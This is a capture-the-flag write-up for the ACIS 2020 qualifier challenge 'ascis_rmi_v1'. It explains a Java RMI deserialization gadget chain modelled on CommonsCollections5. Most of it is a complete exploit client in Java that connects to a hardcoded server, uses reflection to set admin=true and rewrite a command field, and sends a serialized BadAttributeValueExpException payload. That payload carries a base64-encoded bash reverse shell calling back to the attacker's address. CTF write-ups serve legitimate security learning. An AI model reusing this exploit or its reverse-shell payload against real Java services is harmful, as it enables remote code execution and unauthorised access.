



# [ACIS-2020-Quals] ascis_rmi_v1



## Description

- Source: [acis_rmi_v1](src/acis_rmi_v1)
- JDK version: [jdk-8u131-linux-x64.tar.gz](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

## Solution

### Idea

The gadget chain in this challenge similars to [CommonsCollections5 gadget chain](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java). But it's a simpler version. The challenge has its own RCE endpoint - `Player.toString()`, so we just need setting `admin=true` and change logCommand to run remote commands.



### Decompiling

- Client: `jar -xf ascis_player.jar`
- Server: `jar -xf ascis_service1.jar`

### Building Client

Change, build and run `ASCISPlayer` (check comments for more details):

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.management.BadAttributeValueExpException;

/*
    Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                Player.toString()

*/

public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 1337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Java Reflection

        // Get Class Player and object Player
        Class cls = Player.class;
        Player player = new Player();

        // Set admin= true
        player.setAdmin(true);

        // Set cmd
        Field cmdlog = player.getClass().getDeclaredField("logCommand");
        cmdlog.setAccessible(true);
        // cmd ~= bash -i >& /dev/tcp/10.your.ip.address/4444 0>&1
        cmdlog.set(player,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC55b3VyLmlwLmFkZHJlc3MvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}");

        // Build payload
        BadAttributeValueExpException payload = new BadAttributeValueExpException(null);
        Field valfield = payload.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(payload, player); // ~= BadAttributeValueExpException(player)

        // Call login() to exploit
        System.out.println(ascisInterf.login(payload));

    }
}
```

